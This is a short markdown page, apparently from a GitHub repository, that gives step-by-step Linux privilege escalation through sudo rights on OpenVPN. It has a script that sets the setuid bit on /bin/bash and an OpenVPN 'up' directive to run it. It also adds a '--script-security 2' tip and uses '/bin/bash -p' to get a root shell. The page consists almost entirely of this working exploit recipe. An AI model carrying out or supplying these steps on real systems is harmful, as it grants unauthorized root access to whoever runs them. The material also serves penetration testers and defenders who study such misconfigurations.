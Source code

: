 # REQUIREMENTS:

### 1) Sudo privileges on OpenVPN binary

### 2) Write Privileges on OpenVPN configuration file

## STEPS:

#### 1) Create a script wherever you have write privileges: 

#### 2) Script contents: 

    #!/bin/bash 
    
    chmod +s /bin/bash

#### 3) In the configuration file, add a one-liner to execute script upon initialization: 

#### 4) 

    up /home/USER/script.sh

#### 5) Run OpenVPN with sudo

#### 6) 

    /bin/bash -p (Spawn root shell)

## TIP: If the script fails to execute, add another one liner above the one you added in the configuration file:

#### 7) 

    --script-security 2
